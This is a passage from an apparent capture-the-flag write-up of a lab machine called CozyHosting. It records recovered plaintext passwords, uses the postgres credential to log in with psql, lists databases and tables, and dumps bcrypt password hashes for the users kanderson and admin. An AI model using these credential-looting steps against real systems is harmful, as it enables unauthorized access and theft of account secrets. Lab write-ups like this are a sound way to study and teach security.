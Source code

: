 We can add this new credential :

| Username  | email | Password     | Hash | Usage                |
| --------- | ----- | ------------ | ---- | -------------------- |
| josh         |       |              |      |            |
| postgres  |       | Vg&nvzAQ7XxR |      | PostgreSQL           |
| **kanderson** |       | **MRdEQuv6~6P9** |      | web app on port 8080 | 

Since we have a credential to connect to the database, let's explore it, using the `postgres`  credential :

```shell
psql -h localhost -U postgres -W
```

Start by listing databases :

```text
\list

List of databases
Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
|          |          |             |             | postgres=CTc/postgres
template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
|          |          |             |             | postgres=CTc/postgres
(4 rows)
```

Move to the `cozyhosting` database, and list tables :

```text
\connect cozyhosting
You are now connected to database "cozyhosting" as user "postgres".
\dt
List of relations
Schema | Name  | Type  |  Owner
--------+-------+-------+----------
public | hosts | table | postgres
public | users | table | postgres
(2 rows)
```

The `users` table could have some useful information :

```text
select * from users;
name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```
